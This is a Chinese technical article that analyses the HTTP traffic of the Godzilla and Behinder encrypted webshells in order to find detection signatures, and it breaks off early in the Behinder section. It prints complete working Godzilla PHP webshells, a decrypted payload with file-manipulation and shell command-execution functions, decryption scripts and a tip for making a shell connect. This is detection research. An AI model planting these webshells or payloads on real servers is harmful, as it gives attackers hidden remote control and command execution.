










# [](#webshell-%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90)webshell 流量分析

本文以[哥斯拉](https://github.com/BeichenDream/Godzilla)和[冰蝎](https://github.com/rebeyond/Behinder)为例，对上述两个在攻防对抗中常用的加密型 webshell 的流量进行分析。

## [](#1-godzilla)1 Godzilla

由于哥斯拉在处理 jsp 和 php 时加密方式存在差异，本文将从 php 版的 shell 展开，对其运行原理再做一下总结和阐述。首先，生成一个 php 静态 webshell，加密器选择 `PHP_XOR_BASE64`。

### [](#11-http-%E8%AF%B7%E6%B1%82%E5%A4%B4%E7%89%B9%E5%BE%81)1.1 HTTP 请求头特征

#### [](#111-user-agent)1.1.1 User-Agent

哥斯拉客户端使用 JAVA 语言编写，在默认的情况下，如果不修改 User-Agent，User-Agent 会类似于 Java/11.0.7（具体什么版本取决于 JDK 环境版本）。但是哥斯拉支持自定义 HTTP 头部，这个默认特征是可以很容易去除的。

#### [](#112-accept)1.1.2 Accept

`Accept` 头为 `text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2` 对这个默认特征应该很熟悉了，之前冰蝎也出现过同样的 Accept。为什么会这么巧合出现两个工具都会出现这个特征呢，其实这个也是 JDK 引入的一个特征，并不是作者自定义的 Accept。同样的这个默认特征也可以通过自定义头部去除，只能作为默认情况下的辅助检测特征。


### [](#12-%E8%AF%B7%E6%B1%82%E4%BD%93%E7%89%B9%E5%BE%81)1.2 请求体特征

#### [](#121-php_xor_base64)1.2.1 PHP\_XOR\_BASE64



以默认 shell 的密码和密钥为例，生成的文件如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>``` | ```php<br><?php<br>    session_start();<br>    @set_time_limit(0);<br>	  @error_reporting(0);<br>    function E($D,$K){<br>        for($i=0;$i<strlen($D);$i++) {<br>            $D[$i] = $D[$i]^$K[$i+1&15];<br>        }<br>        return $D;<br>    }<br>    function Q($D){<br>        return base64_encode($D);<br>    }<br>    function O($D){<br>        return base64_decode($D);<br>    }<br>    $P='pass';<br>    $V='payload';<br>    $T='3c6e0b8a9c15224a'; // md5(key)[:16]<br>    if (isset($_POST[$P])){<br>        $F=O(E(O($_POST[$P]),$T));<br>        if (isset($_SESSION[$V])){<br>            $L=$_SESSION[$V];<br>            $A=explode('\|',$L);<br>            class C{public function nvoke($p) {eval($p."");}}<br>            $R=new C();<br>						$R->nvoke($A[0]);<br>            echo substr(md5($P.$T),0,16);<br>            echo Q(E(@run($F),$T));<br>            echo substr(md5($P.$T),16);<br>        }else{<br>            $_SESSION[$V]=$F;<br>        }<br>    }<br>``` |

其中比较核心的地方有两处，第一处是进行异或加密和解密的函数 `E($D,$K)`，第二处是嵌套的两个 if 对哥斯拉客户端上传的代码做执行并得到结果。

根据 `$F=O(E(O($_POST[$P]),$T));`第 21 行做逆向判断，可以得到哥斯拉客户端上传代码时的编码加密过程：

原始代码 -> Base64 编码 -> E 函数进行异或加密 -> 再 Base64 编码

进入第二个 if 语句，首先判断 `$_SESSION[$V]` 是否存在，客户端首次连接 shell 时会在 `$_SESSION` 中保存一段代码，叫 `payload`。结合后面 的`run` 函数，这个 `payload` 在后续 `shell` 连接过程中会被调用。整个 shell 的运行原理到这里基本就能明确了，可以用一篇文章中的流程图来总结：


在客户端上配置代理，利用 Burp 查看下 webshell 的交互流量。

在客户端首次连接时，会有连续三个请求，第一个请求如下：



根据上述分析的加密原理，可以写一个简单的解密脚本，将 `pass` 数据进行解密：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```php<br><?php<br>function E($D,$K){<br>    for($i=0;$i<strlen($D);$i++) {<br>        $D[$i] = $D[$i]^$K[$i+1&15];<br>    }<br>    return $D;<br>}<br>function O($D){<br>    return base64_decode($D);<br>}<br>$P='pass';<br>$V='payload';<br>$T='3c6e0b8a9c15224a'; // md5(key)[:16]<br>echo O(E(O("要解密的数据"), $T));<br>?><br>``` |

解密得到的数据为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>201<br>202<br>203<br>204<br>205<br>206<br>207<br>208<br>209<br>210<br>211<br>212<br>213<br>214<br>215<br>216<br>217<br>218<br>219<br>220<br>221<br>222<br>223<br>224<br>``` | ```php<br><?php<br>$parameters=array();<br><br>function run($pms){<br>    formatParameter($pms.'&ILikeYou='.base64Encode('metoo'));<br><br>    if ($_SESSION["bypass_open_basedir"]==true){<br>        @bypass_open_basedir();<br>    }<br><br>    return base64Encode(evalFunc());<br>}<br><br>function bypass_open_basedir(){<br>  // ...<br>}<br><br>function formatParameter($pms){<br>    global $parameters;<br>    $pms=explode("&",$pms);<br>    foreach ($pms as $kv){<br>        $kv=explode("=",$kv);<br>        if (sizeof($kv)>=2){<br>            $parameters[$kv[0]]=base64Decode($kv[1]);<br>        }<br>    }<br>}<br>function evalFunc(){<br>    @session_write_close();<br>    $className=get("codeName");<br>    $methodName=get("methodName");<br>    if ($methodName!=null){<br>        if (strlen(trim($className))>0){<br>            if ($methodName=="includeCode"){<br>                return includeCode();<br>            }else{<br>                if (isset($_SESSION[$className])){<br>                    return eval($_SESSION[$className]);<br>                }else{<br>                    return "{$className} no load";<br>                }<br>            }<br>        }else{<br>            return $methodName();<br>        }<br>    }else{<br>        return "methodName Is Null";<br>    }<br><br>}<br>function deleteDir($p){<br>    $m=@dir($p);<br>    while(@$f=$m->read()){<br>        $pf=$p."/".$f;<br>        @chmod($pf,0777);<br>        if((is_dir($pf))&&($f!=".")&&($f!="..")){<br>            deleteDir($pf);<br>            @rmdir($pf);<br>        }else if (is_file($pf)&&($f!=".")&&($f!="..")){<br>            @unlink($pf);<br>        }<br>    }<br>    $m->close();<br>    @chmod($p,0777);<br>    return @rmdir($p);<br>}<br>function deleteFile(){<br>    $F=get("fileName");<br>    if(is_dir($F)){<br>        return deleteDir($F)?"ok":"fail";<br>    }else{<br>        return (file_exists($F)?@unlink($F)?"ok":"fail":"fail");<br>    }<br>}<br>function copyFile(){<br>    $srcFileName=get("srcFileName");<br>    $destFileName=get("destFileName");<br>    if (@is_file($srcFileName)){<br>        if (copy($srcFileName,$destFileName)){<br>            return "ok";<br>        }else{<br>            return "fail";<br>        }<br>    }else{<br>        return "The target does not exist or is not a file";<br>    }<br>}<br>function moveFile(){<br>    $srcFileName=get("srcFileName");<br>    $destFileName=get("destFileName");<br>    if (rename($srcFileName,$destFileName)){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br><br>}<br>function getBasicsInfo()<br>{<br>   //...<br>}<br>function getFile(){<br>    // ...<br>}<br>function readFileContent(){<br>    $fileName=get("fileName");<br>    if (@is_file($fileName)){<br>        if (@is_readable($fileName)){<br>            return file_get_contents($fileName);<br>        }else{<br>            return "No Permission!";<br>        }<br>    }else{<br>        return "File Not Found";<br>    }<br>}<br>function uploadFile(){<br>    $fileName=get("fileName");<br>    $fileValue=get("fileValue");<br>    if (@file_put_contents($fileName,$fileValue)!==false){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br>}<br>function newDir(){<br>    $dir=get("dirName");<br>    if (@mkdir($dir,0777,true)!==false){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br>}<br>function newFile(){<br>    $fileName=get("fileName");<br>    if (@file_put_contents($fileName,"")!==false){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br>}<br>function execCommand(){<br>    $result = "";<br>    $command = get("cmdLine");<br>    $PadtJn = @ini_get('disable_functions');<br>    if (! empty($PadtJn)) {<br>        $PadtJn = preg_replace('/[, ]+/', ',', $PadtJn);<br>        $PadtJn = explode(',', $PadtJn);<br>        $PadtJn = array_map('trim', $PadtJn);<br>    } else {<br>        $PadtJn = array();<br>    }<br>    if (FALSE !== strpos(strtolower(PHP_OS), 'win')) {<br>        $command = $command . " 2>&1\n";<br>    }<br>    if (is_callable('system') and ! in_array('system', $PadtJn)) {<br>        ob_start();<br>        system($command);<br>        $result = ob_get_contents();<br>        ob_end_clean();<br>    } else if (is_callable('proc_open') and ! in_array('proc_open', $PadtJn)) {<br>        $handle = proc_open($command, array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);<br>        $result = NULL;<br>        while (! feof($pipes[1])) {<br>            $result .= fread($pipes[1], 1024);<br>        }<br>        @proc_close($handle);<br>    } else if (is_callable('passthru') and ! in_array('passthru', $PadtJn)) {<br>        ob_start();<br>        passthru($command);<br>        $result = ob_get_contents();<br>        ob_end_clean();<br>    } else if (is_callable('shell_exec') and ! in_array('shell_exec', $PadtJn)) {<br>        $result = shell_exec($command);<br>    } else if (is_callable('exec') and ! in_array('exec', $PadtJn)) {<br>        $result = array();<br>        exec($command, $result);<br>        $result = join(chr(10), $result) . chr(10);<br>    } else if (is_callable('exec') and ! in_array('popen', $PadtJn)) {<br>        $fp = popen($command, 'r');<br>        $result = NULL;<br>        if (is_resource($fp)) {<br>            while (! feof($fp)) {<br>                $result .= fread($fp, 1024);<br>            }<br>        }<br>        @pclose($fp);<br>    } else {<br>        return "none of proc_open/passthru/shell_exec/exec/exec is available";<br>    }<br>    return $result;<br>}<br>function execSql(){<br>   // ...<br>    }<br>function pdoExec($databaseType,$host,$port,$username,$password,$execType,$sql){<br>     // ...<br>}<br>function base64Encode($data){<br>    return base64_encode($data);<br>}<br>function test(){<br>    return "ok";<br>}<br>function get($key){<br>    global $parameters;<br>    if (isset($parameters[$key])){<br>        return $parameters[$key];<br>    }else{<br>        return null;<br>    }<br>}<br>function includeCode(){<br>    @session_start();<br>    $classCode=get("binCode");<br>    $codeName=get("codeName");<br>    $_SESSION[$codeName]=$classCode;<br>    @session_write_close();<br>    return "ok";<br>}<br>function base64Decode($string){<br>    return base64_decode($string);<br>}<br>?><br>``` |

传输的脚本很长，包含 run、bypass\_open\_basedir、formatParameter、evalFunc 等二十多个功能函数，具备代码执行、文件操作、数据库操作等诸多功能。

可以发现该条数据包并没有回包，可以作为流量识别的其中一个特征。

第二条数据包及解密情况如下：


跟进第一步解密得到的 `run` 函数，首先经过 `formatParameter` 对参数进行处理

信息

作者还在此处拼接了一个 `'&ILikeYou='.base64Encode('metoo')`

将键和 `base64` 解密后的值，此处为：`methodName=test`。存放在全局变量 `parameters` 中，然后再交给 `evalFunc` 去执行进一步的操作。

此外，我们对回包情况做分析，根据 webshell 的第 28 行和第 30 行，`run` 函数中的 `return base64Encode(evalFunc());`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```php<br>echo substr(md5($P.$T),0,16);<br>echo Q(E(@run($F),$T));<br>echo substr(md5($P.$T),16);<br>``` |

可以知道，回包是由 `$P` 和 `$T` 拼接后的 MD5 前 16 位和后 16 位组成。中间是由 `base64encode` + 异或 + `base64_encode` 组成。

解密时，首先去除前 16 位和后 16 位，利用之前的解密脚本，进行解密，得到


说明该请求是一条测试请求，证明 shell 连接成功。

第三个请求的作用是获取目标的环境信息，请求内容为：


利用相同方法解密得到：

解密得到原始代码 `methodName=Z2V0QmFzaWNzSW5mbw==`，即 `methodName=getBasicsInfo`。此操作调用 payload 中的 getBasicsInfo 方法获取目标环境信息向客户端返回。显然，这个过程又是一个固定特征。

至此，成功挖掘到哥斯拉客户端与 shell 建连初期的三个固定行为特征，且顺序出现在同一个 TCP 连接中。可以总结为：

特征：发送一段固定代码（payload），http 响应为空

特征：发送一段固定代码（test），执行结果为固定内容

特征：发送一段固定代码（getBacisInfo）

#### [](#122-php_raw_base64)1.2.2 PHP\_RAW\_BASE64

技巧

我在测试时发现使用默认生成的 raw 格式的 payload 一直连接失败



将生成的 webshell 第 30 行的 run 函数前加上 `@` 即可成功连接。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>``` | ```php<br><?php<br>session_start();<br>@set_time_limit(0);<br>@error_reporting(0);<br>function E($D,$K){<br>    for($i=0;$i<strlen($D);$i++) {<br>        $D[$i] = $D[$i]^$K[$i+1&15];<br>    }<br>    return $D;<br>}<br>function Q($D){<br>    return base64_encode($D);<br>}<br>function O($D){<br>    return base64_decode($D);<br>}<br>function I(){<br>    return "php://input";<br>}<br>$V='payload';<br>$T='3c6e0b8a9c15224a';<br>$F=O(E(file_get_contents(I()),$T));<br><br>if (isset($_SESSION[$V])){<br>    $L=$_SESSION[$V];<br>    $A=explode('\|',$L);<br>    class C{public function nvoke($p) {eval($p."");}}<br>    $R=new C();<br>		$R->nvoke($A[0]);<br>    echo E(@run($F),$T);<br>}else{<br>    $_SESSION[$V]=$F;<br>}<br>``` |

通过比对可以发现，RAW 格式的 shell 与之前的 shell 增加了 I 函数，接收客户端的参数，解密时也少了一步 `base64_decode`。同样的，在返回结果时，也取消了 MD5 的字符串的分隔，下面做进一步分析。

进入 shell 后，还是相同的三步，设置 session，发送 test，获取基础信息。

本次的解密脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```php<br><?php<br>function E($D,$K){<br>    for($i=0;$i<strlen($D);$i++) {<br>        $D[$i] = $D[$i]^$K[$i+1&15];<br>    }<br>    return $D;<br>}<br>function O($D){<br>    return base64_decode($D);<br>}<br>$P='pass';<br>$V='payload';<br>$T='3c6e0b8a9c15224a'; // md5(key)[:16]<br>echo O(E(file_get_contents("./res.txt"), $T));<br>?><br>``` |

由于将 HTTP body 中的数据保存在 res.txt 文件中，并解密，可以得到第一步中的 PHP 脚本信息：



脚本内容基本无变化，具体可以参考上一节的内容。

此时，回包加密的逻辑为 `base64encode` + 异或的形式。

至此，Godzilla PHP 的两种 shell 加密模式分析完毕。

## [](#2-%E5%86%B0%E8%9D%8E)2 冰蝎

同样以 PHP webshell 为例，使用冰蝎默认的 webshell，并进行测试。



### [](#21-http-%E8%AF%B7%E6%B1%82%E5%A4%B4%E7%89%B9%E5%BE%81)2.1 HTTP 请求头特征

#### [](#211-user-agent)2.1.1 User-Agent

该特征属于弱特征。普通用户很容易就可以修改。但是我们也分析一下。

冰蝎 3.0 每次请求都会随机选择一个 User-Agent。但是如果用户默认不提供 UA 头，则从系统中随机选择一个 UA 头。在最新版本(v3.0 Beta 6)中的冰蝎源码中，存在如下 User-Agent

|     |     |     |
| --- | --- | --- |
